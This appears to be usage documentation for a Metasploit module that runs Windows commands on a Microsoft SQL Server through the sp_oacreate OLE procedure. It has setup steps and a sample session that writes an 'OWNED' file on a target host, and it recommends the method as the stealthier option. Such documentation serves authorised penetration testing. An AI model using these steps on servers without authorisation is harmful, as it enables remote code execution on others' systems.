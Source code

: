 ## Description

This module allows you to execute a Windows command on a MSSQL/MSDE instance via the sp_oacreate procedure (ole) instead of the often used xp_cmdshell. This function is used in metasploit to rebuild the xp_cmdshell stored procedure but can be used directly to get code execution which is the more opsec safe way.

## Verification Steps

1. Do: ```use use admin/mssql/mssql_exec_oacreate```
2. Do: ```set USERNAME [username1]```
1. Do: ```set PASSWORD [password1]```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set CMD [command]```
4. Do: ```run```

## Scenarios

```
msf > use use use admin/mssql/mssql_exec_oacreate
msf auxiliary(mssql_exec_oacreate) > set USERNAME username1
USERNAME => username1
msf auxiliary(mssql_exec_oacreate) > set PASSWORD password1
PASSWORD => password1
msf auxiliary(mssql_exec_oacreate) > set RHOST 192.168.1.195
RHOST => 192.168.1.195
msf auxiliary(mssql_exec_oacreate) > set CMD cmd.exe /c echo OWNED > C:\owned.txt
CMD => cmd.exe /c echo OWNED > C:\owned.txt
msf auxiliary(mssql_exec_oacreate) > run

[*] 192.168.1.195:1433 - Enable advanced options and ole automation procedures
[*] 192.168.1.195:1433 - Executing command using sp_oacreate
[*] Auxiliary module execution completed
msf auxiliary(mssql_exec_oacreate) >
```